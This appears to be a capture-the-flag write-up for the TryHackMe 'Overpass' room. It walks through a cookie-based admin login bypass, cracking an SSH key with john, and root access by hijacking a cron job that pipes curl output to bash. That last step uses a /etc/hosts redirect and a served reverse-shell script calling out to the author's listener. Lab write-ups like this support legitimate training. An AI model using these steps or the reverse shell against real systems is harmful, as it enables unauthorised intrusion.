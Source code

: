 # Overpass

[Overpass](https://tryhackme.com/room/overpass)

## Solution

### User

- nmap scan: 22, 80

- trying out gobuster: `gobuster -u http://10.10.3.77 -w /usr/share/dirb/wordlists/common.txt`
    * admin

- there is some source code in the downloads (maybe the code is useful on the
  machine, they might use their own software)

- I looked trough the files that get sent when you access admin

- they use https://github.com/js-cookie/js-cookie for cookies; the login method
  seems weird; so I tried to set the cookie value to some random string, and
  after refreshing the page it redirected me to the admin page.

- we get the SSH key (encrypted) for James

- use john to crack it (ssh2john and then bruteforce)

`ssh2john.py id_rsa > id_rsa.john`

`john --format=ssh id_rsa.john --wordlist /usr/share/wordlists/rockyou.txt`

- then ssh as james

### Root

`ssh -i id_rsa james@<ip>` and enter the passphrase

- we can try to use overpass on the machine and list all passwords

- sadly james does not have sudo privilages

- automated build scripts => cron

- `ps aux | grep cron` => root runs cron... I know there is a way to make cron run my script but how

- `cat /etc/crontab` and we see an interesting line:

`* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash`

- what if we can somehow make overpass.thm point to my ip address? that might
  require root, to change the hostnames

- that worked. I changed overpass.thm in /etc/hosts to my ip address, then I
  started an http server on port 80, created a ./downloads/src/buildscript.sh
  with a revshell. the cronjob downloaded the file and executed it like a dummy
  dum. (also had a nc listener on port 6969)

On Host

Term 1 `nc -lnvp 6969`
Term 2 `mkdir -p downloads/src/`
Term 2 `echo "sh -i >& /dev/tcp/<host>/6969 0>&1" ./downloads/src/buildscript.sh`
Term 2 `sudo python -m http.server 80` (sudo for port 80)

On Target

`nano /etc/hosts/` (change ip for overpass.thm to <host> ip)

### Code

- once logged in as root, you can access tryhack me user home

`cp /home/tryhackme/.overpass /root/.overpass`

and execute overpass and display all. it will show the code (already used but bonus)

TryHackMe Subscription Code      gmTDyl

